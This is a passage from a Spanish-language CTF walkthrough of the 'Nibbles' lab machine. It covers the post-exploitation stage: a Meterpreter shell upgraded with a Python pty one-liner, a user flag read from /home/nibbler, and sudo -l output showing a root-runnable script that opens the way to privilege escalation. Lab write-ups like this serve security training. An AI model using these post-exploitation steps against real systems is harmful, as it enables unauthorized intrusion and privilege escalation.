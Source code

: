 ## Obtención de Acceso al Shell y Descubrimiento de Flags

Una vez establecida la sesión de Meterpreter, procedimos a obtener un shell interactivo para explorar el sistema con más profundidad.

### Iniciando un Shell Interactivo

Para hacer la interacción con el sistema más fácil, mejoramos el shell utilizando Python:

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

Después de obtener el shell, verificamos nuestra ubicación actual y exploramos los directorios:

```bash
(Meterpreter 1)(/var/www/html/nibbleblog/content/private/plugins/my_image) > shell
Process 40368 created.
Channel 0 created.
pwd
/var/www/html/nibbleblog/content/private/plugins/my_image
```


### Descubrimiento del Primer Flag: User.txt
Navegamos por el sistema de archivos para encontrar cualquier información sensible o flags. Encontramos el primer flag en el directorio del usuario nibbler:

```bash

nibbler@Nibbles:/home$ cd nibbler
cd nibbler
nibbler@Nibbles:/home/nibbler$ ls
ls
personal  personal.zip	user.txt
nibbler@Nibbles:/home/nibbler$ cat user.txt
cat user.txt
b56***********
```





## Escalada de Privilegios para Acceso Root

Con la sesión de shell en nuestro poder, procedimos a identificar cualquier oportunidad para escalar nuestros privilegios dentro del sistema.

### Identificación de Oportunidades con `sudo -l`

Primero, utilizamos el comando `sudo -l` para ver qué comandos puede ejecutar el usuario *nibbler* con privilegios de root sin necesidad de contraseña:

```bash
nibbler@Nibbles:/home/nibbler$ sudo -l
sudo -l
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```
Este resultado muestra que podemos ejecutar el script monitor.sh ubicado en el directorio personal del usuario nibbler con privilegios de root y sin contraseña.
